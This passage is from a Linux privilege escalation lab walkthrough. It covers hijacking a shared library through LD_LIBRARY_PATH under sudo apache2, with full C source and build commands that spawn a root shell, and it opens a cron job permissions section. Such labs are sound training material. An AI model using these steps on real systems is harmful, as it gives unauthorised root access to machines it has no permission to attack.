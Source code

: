 1. Run ldd against the apache2 program file to see which shared libraries are used by the program:

```
ldd /usr/sbin/apache2
```


2. Create the library_path.c that contains the following:

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

```
3. Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

4. Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

## Cron Jobs - File Permissions 
Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

1. View the contents of the system-wide crontab:

```
cat /etc/crontab
```

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

2. Locate the full path of the overwrite.sh file:

```
locate overwrite.sh
```
